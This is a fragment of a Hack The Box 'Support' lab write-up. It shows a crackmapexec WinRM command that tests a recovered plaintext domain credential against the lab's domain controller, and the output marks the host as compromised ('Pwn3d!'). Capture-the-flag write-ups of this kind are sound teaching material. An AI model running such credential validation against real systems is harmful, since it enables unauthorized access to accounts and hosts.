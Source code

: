 ![](/assets/obsidian/2821cc2a6aeee2a519ec9de7891c4e28.png)

Validate the credential

```bash
┌──(bravosec㉿fsociety)-[~/htb/Support/ldap_dump]
└─$ cme winrm support.htb -u 'support' -p 'Ironside47pleasure40Watchful'
SMB         10.129.227.255  5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        10.129.227.255  5985   DC               [*] http://10.129.227.255:5985/wsman
HTTP        10.129.227.255  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```
